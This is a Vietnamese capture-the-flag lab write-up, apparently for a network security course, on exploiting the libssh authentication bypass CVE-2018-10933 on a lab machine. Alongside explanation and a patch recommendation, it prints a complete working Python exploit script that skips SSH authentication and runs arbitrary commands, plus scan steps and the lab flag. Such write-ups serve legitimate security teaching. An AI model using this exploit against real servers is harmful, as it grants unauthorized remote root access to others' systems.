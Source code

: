 ```yaml
---
title: Bob Machine Writeup
subtitle: Linux Challenge trong môn An toàn mạng máy tính
readtime: true
tags: [Linux, Machine, Libssh, CVE]
---
```


# ***Thông tin dịch vụ***

| Địa chỉ IP      | Các port đang mở |
| ----------- | ----------- |
| 192.168.19.112  | TCP: 22, 25, 53, 80, 110, 143, 443, 587, 993,995, 3306, 7337   |
|    | UDP: Không có  |

# ***Leo thang đặc quyền***

**Lỗ hổng đã khai thác:**

> **LibSSH 0.7.6 / 0.8.4 - Unauthorized Access (CVE-2018-10933)**

**Giải thích lỗ hổng:**
Một lỗ hổng nghiêm trọng trong Libssh, thư viện triển khai Secure Shell (SSH) đã đửợc phát hiện, cho phép vượt quá cơ chế xác thực và chiếm quyền quản trị trên máy chủ tồn tại lỗ hổng mà không cần mật khẩu. Lỗ hổng được đặt tên là `CVE-2018-10933`, tồn tại trong phiên bản Libssh 0.6 đửợc phát hành trước năm 2014, khiến máy chủ các doanh nghiệp bị tấn công khi sử dụng các phiên bản trửớc 0.7.6 và 0.8.4. Nhửng rất may là OpenSSH và triển khai libssh trên Github không bị ảnh hửởng bởi lỗ hổng. Lỗ hổng xuất phát từ lỗi codế trong Libssh và "vô cùng đơn giản" để khai thác. Kẻ tấn công chỉ cần gửi một thông điệp `SSH2_MSG_USERAUTH_SUCCESS` tới một
máy chủ có kết nối SSH đửợc kích hoạt, tháy vì thông điệp chính xác là `SSH2_MSG_USERAUTH_REQUEST`. Vì lỗi logic trong libssh, thử viện không xác thực đửợc gói tin “đăng nhập thành công” đửợc gửi bởi máy chủ hay từ client và cũng không thể kiểm tra chính xác quá trình xác thực đã hoàn thành hay chưa. Do đó, nếu kẻ tấn công từ xa (client) gửi phản hồi `SSH2_MSG_USERAUTH_SUCCESS` này tới libssh, libssh coi xác thực đã thành công và cấp cho kẻ tấn công quyền truy cập vào máy chủ mà không cần nhập mật khẩu. Libssh đã giải quyết vấn đề này bằng việc phát hành các phiên bản libssh 0.8.4 và 0.7.6 vào ngày 16/10/2018, đồng thời công bố thông tin chi tiết của lỗ hổng.

**Khuyến nghị vá lỗ hổng:**
Nếu đã cài đặt Libssh trên trang web và đang sử dụng thành phần máy chủ, người dùng được khuyến cáo nên cài đặt các phiên bản cập nhật của Libssh trong thời gian sớm nhất.

**Mức độ ảnh hưởng:** [Cao] (CVSS Score: 6.4)

**Cách thức khai thác:**

```js
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

#pip3 install paramiko==2.0.8
#logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
logging.basicConfig(stream=sys.stdout)
bufsize = 2048

def execute(hostname, port, command):

 sock = socket.socket()

 try:
    sock.connect((hostname, int(port)))
    message = paramiko.message.Message()
    transport = paramiko.transport.Transport(sock)
    transport.start_client()
    message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
    transport._send_message(message)
    client = transport.open_session(timeout=10)
    client.exec_command(command)
    # stdin = client.makefile("wb", bufsize)
    stdout = client.makefile("rb", bufsize)
    stderr = client.makefile_stderr("rb", bufsize)
    output = stdout.read()
    error = stderr.read()
    stdout.close()
    stderr.close()
    return (output+error).decode()

 except paramiko.SSHException as e:
    logging.exception(e)
    logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")

 except socket.error:
    logging.debug("Unable to connect.")
 return None
 
if __name__ == '__main__':
 print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```

**Các bước khai thác:**

Sử dụng công cụ nmap thực hiện quét các port đáng mở trên máy mục tiêu 192.168.19.112. Kết quả cho thấy có 12 port TCP đáng mở gồm: `22, 25 53, 80, 110, 143, 443, 587, 993, 995, 3306, 7337`.

![nmap all ports](/assets/img/BobMachine/nmap.png){: .mx-auto.d-block :}

Sau nhiều thời gian khám phá, scan tất cả các port từ trên xuống dưới, ta tìm ra lỗ hổng từ port `7337` với dịch vụ SSH phiên bản `libssh 0.8.3`

![nmap 7337](/assets/img/BobMachine/nmap2.png){: .mx-auto.d-block :}

Thực hiện tìm kiếm các mã exploit phiên bản libssh này bằng công cụ searchsploit. Kết quả trả về 2 lỗ hổng liên quan đến libssh bao gồm mã exploit có thể sử dụng. Sau quá trình khai thác lỗ hổng đầu tiên không thành công, ta thực hiện khai thác lỗ hổng `Unauthorized Access` của libssh (đã đề cập ở trên). Truy cập đường dẫn và sử dụng mã nguồn đã cung cấp ở trên.

![searchsploit](/assets/img/BobMachine/libssh_cve.png){: .mx-auto.d-block :}

Mã exploit trên là đoạn mã python3, được ta sử dụng với 3 tham số: `IP nạn nhân (192.168.19.112), Port (7337), Command (lệnh thực thi trên shell)`. Dưới đây chúng tôi sử dụng lệnh `ls` để kiểm chứng.

![ls](/assets/img/BobMachine/exploit_ls.png){: .mx-auto.d-block :}

Kết quả trả về gồm các thư mục hiện có trên máy nạn nhân.

**Hình ảnh minh chứng:**

Kiểm tra tên user bằng lệnh whoami, thì kết quả cho thấy chúng tôi đã exploit được và leo thang đặc quyền lên root.

![whoami](/assets/img/BobMachine/whoami.png){: .mx-auto.d-block :}

**Nội dung tập tin Proof.txt:**

Tìm kiếm file proof.txt bằng `find / -uname proof.txt 2>/dev/null`. Kết quả trả về `root/proof.txt`, `cat` để xem nội dung flag có trong tập tin proof.txt.

![flag](/assets/img/BobMachine/flag.png){: .mx-auto.d-block :}

> **FLAG: flag{khong_som_thi_chieu_khong_mai_thi_mo}**
